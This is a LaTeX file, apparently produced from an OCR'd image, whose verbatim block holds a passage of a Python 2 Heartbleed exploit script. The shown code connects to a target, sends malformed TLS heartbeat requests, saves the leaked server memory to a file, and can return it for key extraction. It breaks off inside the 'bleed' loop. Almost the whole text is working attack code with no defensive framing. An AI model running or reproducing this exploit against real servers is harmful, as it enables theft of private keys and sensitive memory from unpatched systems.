 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
def rcv_tls_record(s):
    print 'Analyze the result....'
    try:
        tls_header = s.recv(5)
        if not tls_header:
            print 'Unexpected EOF (header)' 
            return None,None,None        
        typ,ver,length = struct.unpack('>BHH',tls_header)
        message = ''
        while len(message) != length:
            message += s.recv(length-len(message))

        if not message:
            print 'Unexpected EOF (message)'
            return None,None,None

        if opts.verbose:
	        print 'Received message: type = {}, version = {}, length = {}'.format(typ,hex(ver),length,)

        return typ,ver,message

    except Exception as e:
        print "\nError Receiving Record! " + str(e)
        return None,None,None

def hit_hb(s, targ, firstrun, supported):
    s.send(hex2bin(build_heartbeat(supported)))
    while True:
        typ, ver, pay = rcv_tls_record(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return ''

        if typ == 24:
            if opts.verbose:
                print 'Received heartbeat response...'
            if len(pay) > 0x29:
                if firstrun or opts.verbose:
                    print '\nWARNING: ' + targ + ':' + str(opts.port) + ' returned more data than it should - server is vulnerable!'
                if opts.rawoutfile:
                    rawfileOUT.write(pay)
                if opts.extractkey:
                	return pay
                else:
	                return hexdump(pay)
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'

        if typ == 21:
            print 'Received alert:'
            return hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return ''

def conn(targ, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sys.stdout.flush()
        s.settimeout(10)
        #time.sleep(0.2)
        s.connect((targ, port))
        return s

    except Exception as e:
       print "Connection Error! " + str(e)
       return None

def bleed(targ, port):
    try:
        res = ''
        firstrun = True
        print '\n##################################################################'
        print 'Connecting to: ' + targ + ':' + str(port) + ', ' + str(opts.num) + ' times'
        for x in range(0, opts.num):
            if x > 0:
                firstrun = False


\end{verbatim}
\end{document}
